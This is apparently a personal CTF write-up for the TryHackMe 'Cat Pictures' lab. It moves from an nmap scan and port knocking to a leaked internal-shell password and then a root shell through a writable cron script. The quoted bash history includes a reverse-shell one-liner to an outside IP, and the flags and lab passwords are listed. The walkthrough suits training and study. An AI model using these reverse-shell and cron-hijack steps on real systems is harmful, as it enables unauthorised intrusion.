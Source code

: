 ```yaml
---
title: Test Writeup - Cat pictures
date: 2021-06-14 19:44:00 +05:30
modified: 2021-06-15 19:44:00 +05:30
tags: [writeups]
description: Writeup for THM - Cat pictures
---
```


---
### Enumeration

#### NMAP scan

```bash
PORT     STATE    SERVICE    REASON              VERSION
21/tcp   filtered ftp        port-unreach ttl 63
22/tcp   open     ssh        syn-ack ttl 63      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDIDEV5ShmazmTw/1A6+19Bz9t3Aa669UOdJ6wf+mcv3vvJmh6gC8V8J58nisEufW0xnT69hRkbqrRbASQ8IrvNS8vNURpaA0cycHDntKA17ukX0HMO7AS6X8uHfIFZwTck5v6tLAyHlgBh21S+wOEqnANSms64VcSUma7fgUCKeyJd5lnDuQ9gCnvWh4VxSNoW8MdV64sOVLkyuwd0FUTiGctjTMyt0dYqIUnTkMgDLRB77faZnMq768R2x6bWWb98taMT93FKIfjTjGHV/bYsd/K+M6an6608wMbMbWz0pa0pB5Y9k4soznGUPO7mFa0n64w6ywS7wctcKngNVg3H
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCs+ZcCT7Bj2uaY3QWJFO4+e3ndWR1cDquYmCNAcfOTH4L7lBiq1VbJ7Pr7XO921FXWL05bAtlvY1sqcQT6W43Y=
|   256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGq9I/445X/oJstLHIcIruYVdW4KqIFZks9fygfPkkPq
8080/tcp filtered http-proxy no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


-------

### Foothold 

- site on port 8080 :
<figure>
<img src="./Pasted%20image%2020210605101307.png" alt="pic">
</figure>
- link : http://10.10.23.106:8080/viewtopic.php?f=2&t=2
<figure>
<img src="./Pasted%20image%2020210605101424.png" alt="pic">
</figure>
- a hint for port knocking(?)
- lets try it out : https://sushant747.gitbooks.io/total-oscp-guide/content/port_knocking.html
- after port knocking twice got access to FTP
```bash
knock $IP 1111 2222 3333 4444
```
- got a `note.txt`:

```
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.

Connect to port 4420, the password is sardinethecat.
- catlover
```
- and connecting to it via nc on `4420` with the gn passwd we have a limited shell
<figure>
<img src="./Pasted%20image%2020210605102030.png" alt="pic">
</figure>
- since `cd` was not available got a reverse shell working
- `strings` was not there so used `cat`:

```
rebeccaPlease enter yout password: Welcome, catlover! SSH key transfer queued! touch /tmp/gibmethesshkeyAccess Deniedd
```
- using the passwd : `rebecca`
- and it works!!

----

### Privesc

- `.bash_history`:

```bash
root@7546fa2336d6:/# cat .bash_history 
exit
exit
exit
exit
exit
exit
exit
ip a
ifconfig
apt install ifconfig
ip
exit
nano /opt/clean/clean.sh 
ping 192.168.4.20
apt install ping
apt update
apt install ping
apt install iptuils-ping
apt install iputils-ping
exit
ls
cat /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
clear
cat /etc/crontab
ls -alt /
cat /post-init.sh 
cat /opt/clean/clean.sh 
bash -i >&/dev/tcp/192.168.4.20/4444 <&1
nano /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
cat /var/log/dpkg.log 
nano /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
exit
exit
exit
```
- so its probably a cron job
- put a simple bash rev shell in that as we are root and we can write to it
- got a rev shell... ROOTED!!! 

-----

### Creds

1. sardinethecat -> internal shell
2. rebecca : runme script

-----

### Flags

1. User flag => `7cf90a0e7c5d25f1a827d3efe6fe4d0edd63cca9`
2. Root flag => `4a98e43d78bab283938a06f38d2ca3a3c53f0476`

----